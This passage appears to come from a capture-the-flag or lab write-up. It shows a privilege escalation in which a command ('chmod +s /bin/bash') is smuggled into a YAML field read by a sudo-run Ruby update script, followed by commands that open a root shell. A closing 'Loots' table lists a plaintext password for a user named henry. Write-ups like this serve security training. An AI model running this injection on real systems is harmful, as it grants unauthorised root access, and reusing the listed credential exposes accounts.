 ```text
uid=0(root) gid=0(root) groups=0(root)
```

We can use it to get a root shell by adding a setuid bit to bash executable :

```text
             git_set: "chmod +s /bin/bash"
```

Execute again the exploit and get a root shell : 

```shell
sudo /usr/bin/ruby /opt/update_dependencies.rb
/bin/bash -p
```

We have a root shell.

## Loots

### credentials

| Username  					| Password  		| Hash      		| Usage     |
| ---       					| ---       		| ---       		| ---       |
| henry                         | Q3c1AqGHtoI0aXAYFH |                  |           |
